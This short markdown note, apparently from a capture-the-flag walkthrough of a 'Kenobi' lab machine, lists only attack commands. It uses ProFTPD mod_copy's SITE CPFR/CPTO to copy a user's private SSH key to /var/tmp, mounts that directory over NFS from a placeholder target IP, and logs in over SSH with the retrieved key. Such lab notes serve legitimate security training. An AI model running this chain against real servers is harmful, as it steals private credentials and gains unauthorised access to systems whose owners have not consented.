 ## ProFTPD mod_copy Commands

```bash
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

---

## NFS Mount Command

```bash
sudo mount -t nfs <TARGET_IP>:/var/tmp /mnt/kenobi_nfs
```

---

## SSH Access with Retrieved Key

```bash
chmod 600 id_rsa
ssh -i id_rsa kenobi@<TARGET_IP>
```
